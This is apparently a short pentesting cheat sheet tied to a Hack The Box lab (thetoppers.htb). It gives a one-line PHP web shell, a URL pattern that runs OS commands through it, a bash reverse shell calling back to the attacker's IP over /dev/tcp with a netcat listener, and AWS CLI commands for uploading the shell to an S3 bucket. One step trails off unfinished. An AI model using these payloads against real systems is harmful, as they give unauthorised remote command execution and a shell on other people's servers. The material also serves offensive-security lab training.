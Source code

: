 
Upload this code on a remote server to test for command line access to the remote host via visiting this file in the web browser. Useful if you can upload a php file on the remote box.

`<?php system($_GET["cmd"]); ?>

If you visit this file via a web browser like so:

```
http://{ip address or dns name}/shell.php?cmd=id
```

The response will be the OS command `id`

If successful, you can upload a reverse shell to the remote host:

```
#!/bin/bash
bash -i >& /dev/tcp/<Your IP Address>/1337 0>&1
```

Then start a netcat listener locally, `nc -nvlp 1337`

You can run a webserver on the remote host:

```
python -m http.server 8000
```

The `curl` the file from your local:

Uploading a file on an s3 bucket:

```
apt install awscli
aws configure
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```

